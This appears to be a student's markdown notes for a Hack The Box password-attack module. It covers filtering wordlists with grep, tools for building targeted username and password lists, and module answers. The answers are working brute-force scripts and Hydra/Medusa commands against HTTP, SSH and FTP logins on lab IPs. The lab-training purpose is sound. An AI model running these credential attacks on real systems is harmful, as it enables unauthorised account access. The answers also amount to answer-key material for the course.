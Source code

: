 ### Content
* Tools:
	* [[Hydra]]
	* [[Medusa]]
* [Custom Wordlists](#custom-wordlists)
* [Edit a wordlist to be tailored to a specific policy with grep](#edit-a-wordlist-to-be-tailored-to-a-specific-policy-with-grep)
* [HTB Module Answers](#htb-module-answers)
---
## Edit a wordlist to be tailored to a specific policy with grep
Suppose we have this policy:
- Minimum length: 8 characters 
- Must include:
    - At least one uppercase letter 
    - At least one lowercase letter 
    - At least one number
    - At least two special characters (from the set `!@#$%^&*`)
``` bash
 grep -E '^.{8,}$' old-wordlist.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > new-wordlist.txt
```
---
## Custom Wordlists
* [Username Anarchy](https://github.com/urbanadventurer/username-anarchy.git) to create personalized username wordlists.
	``` bash
	sudo apt install ruby -y
	git clone https://github.com/urbanadventurer/username-anarchy.git
	./username-anarchy john doe > john_doe_usernames.txt
	```
* [CUPP](https://github.com/Mebus/cupp) to create personalized password wordlists.
	``` bash
	cupp -i
	```
- [CeWL](https://github.com/digininja/CeWL) to scan potential words from the company's website and save them in a wordlist.
	``` bash
	# -d : spider depth, -m : minimum word length, --lowercase : store the words found in lowercase
	cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
	```
---
## HTB Module Answers
* Q1
	``` python
	import requests
	ip = "94.237.51.112"
	port = "40414"
	for pin in range(10000):
	    p = f"{pin:04d}"
	    response = requests.get(f"http://{ip}:{port}/pin?pin={p}")
	    print(f"pin: {p}")
	    if response.ok:
	        print(f"Correct pin: {p}")
	        print(response.json())
	        break
	```
* Q2
	``` python
	import requests
	ip = "94.237.60.32"
	port = "45071"
	passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.split()
	for password in passwords:
	    print(f"Try: {password}")
	    request = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})
	    if request.ok:
	        print(f"The correct password: {password}")
	        print(request.json())
	        break
	```
* Q3
	``` bash
	hydra http-get://94.237.53.3:58756/ -l basic-auth-user -P "2023-200_most_used_passwords.txt"
	```
* Q4
	``` bash
	hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f http-post-form://94.237.60.32:33898/:username=^USER^&password=^PASS^:F=Invalid credentials
	```
* Q5
	``` bash
	medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
	# Login and use a session from the target:
	ssh sshuser@<IP> -p PORT
	medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
	ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost
	```